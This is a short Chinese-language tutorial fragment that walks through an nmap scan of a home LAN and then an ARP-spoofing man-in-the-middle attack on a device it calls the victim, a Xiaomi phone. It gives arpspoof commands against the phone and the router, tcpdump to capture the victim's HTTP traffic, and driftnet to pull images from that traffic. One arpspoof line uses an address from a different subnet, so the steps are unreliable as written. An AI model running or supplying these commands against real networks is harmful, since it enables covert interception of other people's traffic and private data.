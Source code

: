 > nmap -sS 192.168.0.1/24

```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 02:59 CST
Nmap scan report for 192.168.0.1
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 78:44:FD:77:53:EF (Tp-link Technologies)

Nmap scan report for 192.168.0.100
Host is up (0.0040s latency).
All 1000 scanned ports on 192.168.0.100 are filtered
MAC Address: 9C:A6:15:5C:37:D2 (Tp-link Technologies)

Nmap scan report for 192.168.0.101
Host is up (0.0039s latency).
All 1000 scanned ports on 192.168.0.101 are filtered
MAC Address: 28:2C:B2:C1:70:C1 (Tp-link Technologies)

Nmap scan report for 192.168.0.102
Host is up (0.14s latency).
Not shown: 999 filtered ports
PORT     STATE  SERVICE
6881/tcp closed bittorrent-tracker
MAC Address: 60:3A:7C:11:07:38 (Tp-link Technologies)

Nmap scan report for 192.168.0.103
Host is up (0.012s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
16080/tcp open  osxwebadmin
MAC Address: A4:50:46:6C:CE:65 (Xiaomi Communications)

Nmap scan report for 192.168.0.105
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: 54:99:63:33:AB:B5 (Apple)

Nmap scan report for 192.168.0.109
Host is up (0.00026s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE
135/tcp open  msrpc
MAC Address: 28:3A:4D:74:FA:41 (Cloud Network Technology (Samoa) Limited)

Nmap scan report for 192.168.0.128
Host is up (0.0000020s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (8 hosts up) scanned in 102.69 seconds
```


注意：运行 arpspoof 命令时提示：arpspoof未找到命令，其原因是你还未安装 arpspoof 工具；arpspoof 是 dsniff 的一个附属工具，所以我们需要安装的是 dsniff

打开一个控制台
> apt-get install dsniff
> arpspoof -i eth0 -t 192.168.0.103(受害者ip) 192.168.0.1(路由器ip)     告诉192.168.0.103它，我是路由器

我们再打开一个控制台：
> arpspoof -i eth0 -t 192.168.0.1(路由器ip) 192.168.1.101(我的ip)      告诉路由器，我是小米手机

我们再打开一个控制台：
> tcpdump tcp -nnAi eth0 port 80 and host 192.168.0.103(受害者ip)

安装图形捕获工具driftnet
> apt-get install driftnet   安装 
> driftnet -i eth0    获取0号网卡   



